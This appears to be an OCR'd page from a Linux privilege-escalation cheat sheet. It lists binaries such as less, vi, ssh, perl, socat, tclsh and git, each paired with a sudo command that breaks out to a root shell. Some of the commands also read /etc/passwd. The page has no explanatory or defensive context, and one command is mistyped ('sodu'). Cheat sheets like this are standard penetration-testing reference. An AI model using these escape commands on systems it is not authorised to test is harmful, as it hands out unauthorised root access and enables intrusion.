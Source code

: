 **sudo ftp**

**!/bin/sh**

less

**sudo less /etc/passwd**

**!/bin/sh**

more

**sudo more /etc/passwd**

**!/bin/sh**

man

**sudo man man**

**!/bin/sh**

socat

**sodu socat stdin exec:/bin/sh**

ssh

**sudo ssh -o ProxyCommand=’;sh 0<&2 1>&2’ x**

vi

**sudo vi -c ‘:!/bin/sh’ /dev/null**

zsh

**sudo zsh**

pico

**sudo pico**

**^R^X**

**reset; sh 1>&0 2>&0**

rvim

**sudo rvim -c ‘:python3 import os; os.execl(“/bin/sh”,”sh”,”-c”,”reset; exec sh”)’**

perl

**sudo perl -e ‘exec “/bin/sh”;’**

tclsh

**sudo tclsh**

**exec /bin/sh <@stdin >@stdout 2>@stderr**

git

**sudo git -p help config**

**!/bin/sh**
